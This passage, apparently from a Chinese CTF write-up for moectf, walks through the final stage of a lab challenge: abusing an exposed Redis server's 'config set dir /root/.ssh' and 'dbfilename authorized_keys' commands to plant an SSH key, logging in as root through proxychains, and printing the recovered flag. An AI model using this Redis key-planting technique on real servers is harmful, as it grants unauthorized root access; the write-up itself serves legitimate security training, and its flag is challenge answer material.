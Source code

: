 可以看到有 ```xxx``` 键和对应的值，表示成功写入

设置路径，准备导出文件到磁盘.（本质是更改 redis 的备份路径）
```shell
config set dir /root/.ssh
```

设置文件名（不能改成其他的）并导出
```shell
config set dbfilename authorized_keys
save
```

现在尝试连接 ssh
```shell
proxychains4 ssh -i 1 -p 6100 root@192.168.179.129
```
这里的 ```-i``` 参数后面的 ```1```，是前面生成 ```ssh-rsa``` 密匙的文件名 ```1```，```passsphrase``` 是前面生成 ```ssh-rsa``` 密匙时候填写的 ```passsphrase```，即 ```123```

到此成功连上 ssh

在根目录获取到最后一部分 flag ```P@sSW0Rd-F0r-redis-Is-NeceSsary}```


本部分参考：[渗透测试之地基服务篇：服务攻防之数据库Redis（上）](https://blog.csdn.net/wangluoanquan111/article/details/132023590)

flag 三部分组合起来是 ```moectf{Information-leakage-Is-dangerous!-Are-YOu-myS0L-MasT3r?-P@sSW0Rd-F0r-redis-Is-NeceSsary}```